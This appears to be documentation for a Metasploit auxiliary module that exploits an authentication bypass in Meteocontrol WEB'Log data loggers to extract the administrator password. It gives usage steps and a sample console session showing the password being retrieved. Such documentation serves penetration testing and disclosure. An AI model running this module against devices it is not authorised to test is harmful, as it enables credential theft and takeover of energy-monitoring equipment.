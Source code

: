 Meteocontrol WEB'Log Data Loggers are affected with an authentication bypass vulnerability.
The module exploits this vulnerability to remotely extract Administrator password for the device management portal.

Note: In some versions, 'Website password' page is renamed or not present. Therefore, password can not be extracted. Manual verification will be required in such cases.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/meteocontrol_weblog_extractadmin```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/meteocontrol_weblog_extractadmin
msf auxiliary(meteocontrol_weblog_extractadmin) > set rhosts 1.2.3.4
msf auxiliary(meteocontrol_weblog_extractadmin) > run

[+] 1.2.3.4:8080 - Running Meteocontrol WEBlog management portal...
[*] 1.2.3.4:8080 - Attempting to extract Administrator password...
[+] 1.2.3.4:8080 - Password is password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
